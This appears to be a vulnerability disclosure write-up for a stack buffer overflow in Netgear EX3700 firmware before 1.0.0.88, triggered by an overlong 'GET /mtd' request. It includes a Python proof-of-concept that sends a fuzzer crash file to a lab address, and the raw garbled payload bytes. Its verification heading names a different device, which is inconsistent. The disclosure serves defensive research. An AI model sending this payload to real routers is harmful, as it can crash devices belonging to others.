 # Overview
Details of the vulnerability found in the netgear router ex3700.This vulnerability affects all firmware versions before 1.0.0.88.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex3700    | before 1.0.0.88    | https://www.downloads.netgear.com/files/GDC/EX3700/EX3700_EX3800-V1.0.0.88_1.0.58.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_41619C at offset 0x0041684C, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET /mtd`.
![2](./assets/2.png)
- Since the program uses memset(&v22[6], 0, 94);, the maximum size of the v22 buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.7"
port = 80
file = "../crashes/id0"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## id0

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET /mtd�������������������������t������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������ggggggggggggggg������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������l M�Contdnt-Dispo�ibion:rl3
```

# Vulnerability Verification Screenshot
##  dcs-5020l-1.01_B2
![3.png](./assets/3.png)

# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.